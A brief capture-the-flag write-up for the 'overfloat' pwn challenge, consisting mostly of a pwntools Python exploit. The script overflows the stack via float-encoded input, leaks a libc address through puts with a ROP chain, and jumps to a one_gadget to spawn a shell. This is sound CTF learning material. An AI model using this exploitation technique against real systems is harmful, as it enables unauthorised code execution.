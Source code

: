 ## 100 Pwn / overfloat

Easy and simple stack overflow, the trick is `unpack("<f", payload[i:i+4])[0]` to convert `DWORD` to floating point number and `"%.70f" % f` to convert floating point number to string with enough precision.

```python
from pwn import *
from struct import unpack
g_local=1
context(log_level='debug', arch='amd64')
p = ELF("./overfloat")
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")

if g_local:
	sh = process("./overfloat")
	gdb.attach(sh)
else:
	sh = remote("challenges.fbctf.com", 1341)


def to_float_arr(payload):
	ret = []
	for i in xrange(0, len(payload), 4):
		ret.append(unpack("<f", payload[i:i+4])[0])
	return ret

pop_rdi = p64(0x400a83)

payload = 'A' * 0x38
payload += pop_rdi
payload += p64(p.got["puts"])
payload += p64(p.plt["puts"])
payload += p64(p.symbols["main"])


def exploit(arr):
	sh.recvuntil("LIKE TO GO?\n")
	for f in arr:
		sh.recvuntil(": ")
		sh.sendline("%.70f" % f)
	sh.recvuntil(": ")
	sh.sendline("done")
	sh.recvuntil("BON VOYAGE!\n")

exploit(to_float_arr(payload))
libc_addr = u64(sh.recvuntil('\x7f\n')[:-1] + '\x00\x00') - e.symbols["puts"]
print hex(libc_addr)

payload = 'A' * 0x38
payload += p64(libc_addr + 0x4f322)
payload += '\x00' * 0x70

exploit(to_float_arr(payload))

sh.interactive()
```
